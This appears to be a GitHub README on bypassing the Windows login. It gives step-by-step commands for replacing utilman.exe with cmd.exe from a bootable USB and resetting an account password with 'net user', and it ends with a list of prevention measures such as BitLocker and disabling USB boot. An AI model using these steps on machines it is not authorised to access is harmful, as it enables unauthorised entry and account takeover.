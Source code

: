 <h1 align="center">Windows Login Bypass and Prevention</h1>


## Explaination
We are trying to access CMD so that we can change the Username, Password without Logging in. So, We used Bootable USB: As we can access temporary CMD from there and there is also a way in Windows 10 via Troubleshooting but that's not possible for all Window User.

So after opening CMD we perform some steps like searching for System Files present in our main computer by checking each drive then after searching we go to the System32 Folder and there we contain our utilman.exe and cmd.exe File. So we make a copy of utilman.exe and then changed utilman.exe as cmd.exe. As if we execute utilman.exe file, then cmd.exe will get executed. And utilman.exe is one and only ""Ease of Access"" which is present at the bottom right in Windows. So, after changing that and starting our Windows normally. We can click ""Ease of Access"" and cmd.exe will get executed and we can use out short script for which we were waiting for.

net user username password -> this will change out password for particular account without any problem.

## Requirement

A Computer, Bootable USB for Windows 10

## Steps

1. Restart and boot from Pendrive and after Install Screen appears then hit Shift + 10 and CMD will open up.

2. X: \Sources>
```bash
wmic logicaldisk get name
```

Output:
    Name
    C:
    D:
    E:
    X:


3. X: \Sources>
```bash
C:
#the directory which comtains your system files
```


4. C: \>
```bash
dir
```

Output:
Volume in drive C is System Reserved
Volume Serial Number is 56E1-426F

Directory of C:\
    File Not Found


5. E: \>
```bash
D:
```


6. D: \>
```bash
cd Windows
```


7. D: \Windows>
```bash
cd System32
```


8. D: \Windows\System32>
```bash
ren utilman.exe utilman2.exe
```


9. D: \Windows\System32>
```bash
copy cmd.exe utilman.exe
```


10. Click Ease of Access - cmd will open

11. net user username password


## Prevention: Protecting Your System

To prevent people from bypassing your Windows password using Command Prompt (CMD) or other methods, you can implement several security measures. Here are some effective strategies:

1. **Enable Local Security Policies:**

Use the Local Security Policy editor to enforce strong password policies.
* Press Windows + R, type `secpol.msc`, and press Enter.
* Navigate to Local Policies > Security Options and adjust settings like:
    * Accounts: Administrator account status (disable if not needed)
    * Accounts: Guest account status (disable)

2. **Disable Command Prompt Access:**

You can restrict access to CMD for standard users.
* Press Windows + R, type `gpedit.msc`, and press Enter.
* Navigate to User Configuration > Administrative Templates > System.
* Find the policy "Prevent access to the command prompt" and set it to Enabled.

3. **Use User Account Control (UAC):**

Ensure UAC is enabled to prevent unauthorized changes.
* Go to Control Panel > User Accounts > Change User Account Control settings and set it to the highest level.

4. **Limit Administrator Privileges:**

Ensure that users do not have administrative privileges unless necessary.
* Create standard user accounts for daily use and reserve admin accounts for administrative tasks.

5. **Use BitLocker Encryption:**

Encrypt your drives with BitLocker to protect data.
* Go to Control Panel > System and Security > BitLocker Drive Encryption and enable it for your drives.

6. **Keep Your System Updated:**

Regularly update Windows to patch vulnerabilities.
* Go to Settings > Update & Security > Windows Update and check for updates.

7. **Use Strong Passwords:**

Ensure that all user accounts have strong, complex passwords.
* Consider implementing a password manager to generate and store complex passwords.

8. **Monitor Account Access:**

Enable audit logging to monitor account access and changes.
* In the Local Security Policy, navigate to Local Policies > Audit Policy and enable auditing for logon events.

9. **Disable Boot from External Devices:**

Prevent users from booting from USB or external drives.
* Access BIOS/UEFI settings during boot and adjust boot order or disable USB booting.
